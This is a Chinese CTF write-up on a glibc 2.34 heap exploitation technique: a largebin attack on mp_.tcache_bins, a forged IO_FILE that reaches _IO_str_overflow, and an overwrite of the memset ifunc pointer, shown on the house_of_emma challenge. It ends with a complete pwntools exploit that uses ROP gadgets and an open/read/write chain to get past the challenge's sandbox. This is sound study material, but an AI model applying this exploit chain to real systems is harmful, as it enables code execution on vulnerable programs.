










# glibc2.34

# glibc2.34版本下的最新攻击技巧

## 前言

总所周知，我们在做堆题的时候经常是对堆的漏洞进行利用，最终的效果是改malloc hook或者free hook的地址为onegadget或者system的地址来拿到shell，是因为在执行malloc和free的时候，会对这两个地址进行判断，如果不为零，就跳到这个地址去执行，但是，到了glibc2.34的版本之后，就没有了这个判断，不能再利用其来getshell。


## 利用条件

能进行largebin attack


## 适用范围

程序中仅有calloc函数且申请出来的大小不能放进tcache的情况


## 攻击原理

在新版本下，我们主要思想的就是要找一个能代替malloc hook和free hook的东西，我们可以发现在libc中存在很多类似j_xxxxx_ifunc的函数，它会先跳到一个类似got表的地方存放的地址去执行。



还有一个就是要解决程序中只有calloc而无法利用tcache进行任意地址分配的问题，于是就想到了IO_str_overflow函数，可以看到里面有malloc、memcpy、free函数，后面还有个我们上面说到的j_memeset_ifunc函数，我们可以通过前面三个任意分配和任意写把memset_ifunc改成任意地址，达到任意代码执行的操作。






## 具体例题

这里我们就以湖湘杯的house_of_emma为例，给到的是2.34版本的libc。

### 分析

这题漏洞很明显，就是存在uaf。





申请的堆只能大于0x40f，也就是说不能放进tcache bin了





### 利用思路

1.利用UAF泄露libc地址和堆地址。

2.利用largebin atack修改mp_.tcache_bins的值为堆地址，之后free掉的chunks都会被放进tcache，而且在申请的时候会从堆里面取地址申请，当我们申请一个大的chunks时，它就会从我们申请的chunks去取地址进行分配，如果在我们申请的chunks改成任意地址，就能造成任意地址分配。


3、但是tcache bin里面的chunk是要malloc才能申请出来的，所以我们要改io file结构体去执行 IO_str_overflow函数。这里我们选择的是stdout指针，然后在堆里面布置好iofile结构体






4、当执行puts函数的时候，就会去执行_GI__IO_str_overflow的malloc函数，他的参数等于（ _IO_buf_end- _IO_buf_base）*2+100





5、而我们上面已经将mp_.tcache_bins改成很大的值，所以当申请0x490的chunks的时候，tcache就会从0x55555555b2d0取值去分配，由于我们已经将其地址改成memset_ifunc，就会分配到那里然后调用memcpy进行任意改。



6、因为这题开了沙盒，禁用了system，所以我们要通过orw的方法绕过沙盒去读取flag，这里就要找一个合适的gadget，我们一般是找libc上面的setcontext函数，但是前提条件是能控制rdx，所以我们还要找个gadget来控制rdx，这里的rbx和r14是堆的地址比较容易控制，于是就在libc找到以下gadget填入memset_ifunc，执行完gadget之后配合setcontext就能orw顺利拿到flag

```
0x000000000006f476 : mov rdx, rbx ; mov rsi, r13 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
```





### 完整exp

```
from pwn import*
context.log_level=True
libc=ELF('libc.so.6')
#p = process(["./ld.so", "./pwn"],env={"LD_PRELOAD":"./libc.so.6"})
p = process('./pwn')
#p=remote('172.35.19.11',9999)


def add(idx,size):
	p.recvuntil('Pls input the opcode\n')
	payload='\x01'+p8(idx)+p16(size)+'\x05'
	p.send(payload)
def delete(idx):
	p.recvuntil('Pls input the opcode\n')
	payload='\x02'+p8(idx)+'\x05'
	p.send(payload)
def show(idx):
	p.recvuntil('Pls input the opcode\n')
	payload='\x03'+p8(idx)+'\x05'
	p.send(payload)
def edit(idx,data):
	p.recvuntil('Pls input the opcode\n')
	payload='\x04'+p8(idx)+p16(len(data))+str(data)+'\x05'
	p.send(payload)


add(0,0x440)
add(1,0x4a0)
add(2,0x410)
add(3,0x490)
add(4,0x430)
add(5,0x490)
add(6,0x430)
add(9,0x4c0)
add(10,0x490)
add(11,0x490)
add(12,0x490)
add(13,0x490)
add(14,0x490)
add(15,0x490)
add(16,0x490)
delete(1)
show(1)

leak=u64(p.recv(6).ljust(8,'\x00'))
print hex(leak)
libcbase=leak-(0x7ffff7fb10d0-0x00007ffff7dbe000)
arena=leak+(0x00007ffff7fb10b0-0x7ffff7fb0cc0)
addr=libcbase+(0x7ffff7fb0390-0x00007ffff7dbe000) #0x7ffff7fb1660

IO_str_vtable=libcbase+(0x7ffff7fb2620-0x00007ffff7dbe000)
memset_got=libcbase+(0x7ffff7fb0180-0x00007ffff7dbe000)

'''
0x0000000000082513 : mov rdx, rbx ; mov rsi, r12 ; mov rdi, rbp ; call qword ptr [r13 + 0x38]
0x000000000007494a : mov rdx, rbx ; mov rsi, r12 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
0x000000000006f476 : mov rdx, rbx ; mov rsi, r13 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
0x000000000002daa2 : pop rdi ; ret
0x0000000000037c0a : pop rsi ; ret
0x00000000001066e1 : pop rdx ; pop r12 ; ret
'''
setcontext=libcbase+0x50BFD
gadget=libcbase+0x000000000006f476

edit(9,p64(gadget)*6+p64(setcontext)*2)

p.recvuntil('Pls input the opcode')
payload='\x01\x07\x00\x05'+'\x02\x03'+'\x04\x01\x20\x00'+p64(arena)*2+p64(0)+p64(addr-0x20)+'\x01\x08\x10\x04\x05'


p.send(payload)


for i in range(7):
	delete(i+10)

#delete(9)

show(11)
leak=u64(p.recvuntil('\x0a',drop=True).ljust(8,'\x00'))<<12
print hex(leak)

heapbase=leak-(0x7ffff8003000-0x7ffff7fff000)
lock=libcbase+(0x7ffff7fb3730-0x00007ffff7dbe000)
addr=libcbase+(0x7ffff7fb1848-0x00007ffff7dbe000)
system=libcbase+libc.sym['system']
puts=libcbase+0x000000000007A050

v4=heapbase+(0x7ffff8003190-0x7ffff7fff000)
rsp=heapbase+(0x7ffff7fff460-0x7ffff7fff000)
flag=heapbase+(0x7ffff7fff760-0x7ffff7fff000)


pop_rdi=libcbase+0x000000000002daa2
pop_rsi=libcbase+0x0000000000037c0a
pop_rdx_r12=libcbase+0x00000000001066e1
fake_IO_FILE = p64(memset_got)
fake_IO_FILE += p64(v4)                #v4
fake_IO_FILE += p64(v4+0x216)
fake_IO_FILE += p64(memset_got)*3
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')              
fake_IO_FILE += p64(lock)  #lock
fake_IO_FILE += p64(0)  
fake_IO_FILE += p64(0)  
fake_IO_FILE += p64(rsp)  #lock
fake_IO_FILE += p64(pop_rdi)  
fake_IO_FILE = fake_IO_FILE.ljust(0xa8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable


open=libcbase+libc.sym['open']
read=libcbase+libc.sym['read']
write=libcbase+libc.sym['write']


payload='\x02\x05\x03\x05\x03\x05\x03\x05\x03\x05\x03\x05'+'\x04\x01\xd0\x00'+p64(arena)*2+p64(0)+p64(addr-0x20)+fake_IO_FILE+'\x01\x08\x10\x04'
payload=payload.ljust(0x1c0,'\x00')+p64(flag)+p64(open)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(read)
payload+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(write)
payload=payload.ljust(0x4c0,'\x00')+'./flag'
#attach(p,'b *'+str(0x0000555555554000+0x1503)+'\nb *'+str(0x00007ffff7fc2000+0x1886)+'\nb *0x7ffff7e449b9')
#pause()

print hex(libcbase)
print hex(heapbase)

p.send(payload)

p.interactive()


```

